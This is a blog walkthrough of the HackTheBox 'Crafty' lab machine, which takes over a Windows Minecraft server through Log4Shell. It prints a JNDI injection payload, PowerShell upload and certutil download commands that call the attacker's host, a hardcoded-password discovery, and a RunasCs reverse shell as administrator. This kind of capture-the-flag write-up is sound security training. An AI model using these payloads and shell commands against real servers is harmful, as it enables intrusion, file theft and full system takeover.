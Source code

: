 ```yaml
---
title: "CTF: Crafty (HTB, Windows, Easy)"
excerpt: "A detailed walkthrough of \"Crafty\" machine on HackTheBox."
tagline: "Take over a Minecraft server!"
header:
  teaser: /docs/assets/images/teasers/ctf/crafty.png
  og_image: /docs/assets/images/teasers/ctf/crafty.png
  overlay_image: /docs/assets/images/teasers/ctf/crafty2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Easy
  - Log4Shell
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Crafty" machine on HackTheBox that is based on Windows operating system and categorized as "Easy" by difficulty. Never in my entire existence had I thought I would fall so low that I'd touch Minecraft in any shape or form, however, the day has come... "Enjoy" a takeover of a Minecraft server that is vulnerable to the infamous **Log4Shell** (CVE-2021-44228)! It should be noted that at the moment of writing, the machine has not been implemented in a quality manner, and even if you follow all the instructions step by step, you may still experience connectivity issues and exploit malfunctioning (it's recommended to spare yourself from pain and simply reset the machine). However, through rigorous testing, yours truly described the smoothest exploitation scenario.

## Reconnaissance

Run **nmap** to scan all ports:

```bash
nmap -p- <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

As soon as Minecraft appeared in the scan results, Log4Shell came across my mind due to a video watched on YouTube a while ago, Minecraft servers being vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was possible to inject **JNDI** queries right into the game chat and the server would execute them, provided that it utilized **Log4j** versions 1.7 to 1.18.

Navigating to the website would feature the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/craftypage.png" alt="">
  <figcaption>Donate your lunch money!</figcaption>
</figure>

The website hosted on Windows IIS cannot be exploited in any way, so the Challenger has to focus on **port 25565** where Minecraft is running. The home page also mentions the server's subdomain, **play.crafty.htb**.

## Weaponization

It is required to install the following tools to establish foothold:

* Download [Log4j PoC](https://github.com/kozmer/log4j-shell-poc/tree/main?tab=readme-ov-file) by Kozmer from GitHub.

* The exploit requires **jdk-8u20** and checks if its present in the directory. Downloading the exact version from Oracle website prompts for account creation. I was able to find a slightly different jdk version - [jdk-8u202](https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz) that works with the exploit. Once downloaded and extracted in the same directory as the POC script, rename the jdk directory to **jdk1.8.0_20** in order to bypass the script check.

* Download [PyCraft](https://github.com/ammaraskar/pyCraft): a CLI Minecraft client that allows to connect to the server and send messages to the game chat (best alternative to avoid the disgrace of installing an actual Minecraft client on your computer).

Once the above steps have been completed, modify the code of **poc.py** file in the *log4j-shell-poc* directory to execute **"cmd.exe"** (since the server is hosted on Windows) in the payload:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pocpy.png" alt="">
  <figcaption></figcaption>
</figure>

## Exploitation / Foothold

Run Kozmer's PoC:

```bash
python3 poc.py --userip YOUR_IP --webport YOUR_HTTP_PORT --lport YOUR_NETCAT_PORT
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/kozmerpocrun.png" alt="">
  <figcaption></figcaption>
</figure>

The exploit will open a HTTP server on the specified port where it will host a malicious payload referring to Netcat listener. Also it opens an LDAP server with the instructions that would redirect the server to the Attacker's HTTP server. In the output, the tool specifies a JNDI payload that will need to be injected in the game chat.

Run Netcat:

```bash
nc -lnvp <PORT>
```

Connect to the server with PyCraft:
```bash
python start.py -o -u $USER -s play.crafty.htb:25565
# Once the chat opens, inject the JDNI payload provided by the exploit:
${jndi:ldap://<YOUR IP>:1389/a}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pycraft.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

The Challenger should receive a reverse shell on the Netcat listener. Claim the user flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/user.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Navigate to *C:\\User\\svc_minecraft\\server\\plugins*. There's a **playercounter-1.0-SNAPSHOT.jar** file in there:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Now it's necessary to transfer the file to the Attacker's machine to extract its contents. Upload it to your HTTP server (other file transfer methods were not working properly on this machine at the moment of writing) with Powershell. You can use [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload) Python tool.

```python
python3 SimpleHTTPServerWithUpload.py <PORT>
```
Then on the Target machine:
```powershell
powershell
(New-Object System.Net.WebClient).UploadFile('http://<IP>:<PORT>/', 'playercounter-1.0-SNAPSHOT.jar')
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jarupload.png" alt="">
  <figcaption></figcaption>
</figure>

The file should be uploaded in the directory with HTTP server tool.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jardownload.png" alt="">
  <figcaption></figcaption>
</figure>

Let's view the contents of the file with **jd-gui**. Install it on your machine with *sudo apt-get jd-gui*. In the source code of **Playercounter.class** we see a command for **rcon** (Remote Console for the Minecraft server) that contains a <ins>password</ins> string.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rconpass.png" alt="">
  <figcaption></figcaption>
</figure>

It's time to use the discovered password. For this purpose, we will utilize [RunasCs](https://github.com/antonioCoco/RunasCs) - a utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

Download the tool. Start HTTP server and transfer the tool to the Target machine:

```powershell
# Attacker:
python3 -m http.server <PORT>
# Target:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/runascs.exe" runascs.exe
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/runadownload.png" alt="">
  <figcaption>Example of successfull download.</figcaption>
</figure>

Start a Netcat listner on the Attacker machine. Back on the Target machine, run **runascs.exe** with the following parameters:

```powershell
.\runascs.exe administrator <PASSWORD> cmd.exe -r <IP>:<PORT>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/runascscmd.png" alt="">
  <figcaption></figcaption>
</figure>

This will send a reverse shell as **administator** user to the Attacker.

### Root flag

Claim the root flag in the  *C:\\Users\\Administrator\\Desktop* folder.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/root.png" alt="">
  <figcaption>Solved, now delete Minecraft from your computer!</figcaption>
</figure>


**Thank you for your attention and happy hacking!**
{: .notice--primary}
